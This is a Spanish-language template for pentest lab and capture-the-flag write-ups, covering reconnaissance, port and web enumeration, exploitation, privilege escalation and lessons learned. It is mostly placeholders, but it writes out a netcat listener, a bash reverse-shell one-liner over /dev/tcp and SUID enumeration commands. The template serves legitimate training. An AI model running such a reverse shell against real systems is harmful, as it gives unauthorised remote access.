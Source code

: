 
---
# Writeup Template: Maquina `[Nombre_Máquina]`

- Tags: `[Etiqueta1]` `[Etiqueta2]` `[Etiqueta3]`
- Dificultad: `[Baja/Media/Alta/Insane]`
- Plataforma: `[HTB/VulnHub/TryHackMe/Dockerlabs/etc]`

---
## Enlace al laboratorio
`[Enlace_Descarga_o_Acceso]`

## Configuración del Entorno
```bash
# Comandos para desplegar el laboratorio
[comando_descompresion] [archivo_laboratorio]
[comando_despliegue] [configuracion]
```

---

## Fase de Reconocimiento
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 [IP_TARGET] 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py [IP_TARGET]
# TTL: [Valor] -> [Sistema_Operativo]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t [IP_TARGET] -p [Rango_Puertos]

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn [IP_TARGET] -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p[Puertos_Abiertos] [IP_TARGET] -oN targeted
```

**Servicios identificados:**
1. `[Puerto]/[Protocolo]`: [Servicio] ([Versión])
2. `[Puerto]/[Protocolo]`: [Servicio] ([Versión])
---

## Enumeracion de [Servicio  Principal]
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://[IP_TARGET]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p [PORT] [IP_TARGET]
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] [Opciones_Adicionales]
```

**Hallazgos Relevantes:**
- `[Ruta_Importante]`: [Descripción]
- `[Ruta_Importante]`: [Descripción]

### Descubrimiento de Archivos
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] -x [Extensiones]
```

- **Hallazgos**:
```bash
/admin (Status: 200) [Size: 1534]
/backup (Status: 301) [Size: 315]
```

### Credenciales Encontradas
- Usuario: `[Usuario]`
- Contraseña: `[Contraseña]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
[Descripción breve del método de explotación]

### Ejecucion del Ataque
```bash
# Comandos para explotación
[comando_explotacion]
```

### Intrusion
Modo escucha
```bash
nc -nlvp PORT
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/IP_TARGE/PORT <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
id
sudo -l
find / -perm -4000 2>/dev/null
```

**Hallazgos Clave:**
- Binario con privilegios: `[Binario]`
- Credenciales de usuario: `[Usuario]:[Contraseña]`

### Explotacion de Privilegios
```bash
# Comando para escalar al usuario: ( root )
[comando_escalada]
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```

---

## Lecciones Aprendidas
1. [Lección 1]
2. [Lección 2]
3. [Lección 3]

## Recomendaciones de Seguridad
- [Recomendación 1]
- [Recomendación 2]
- [Recomendación 3]


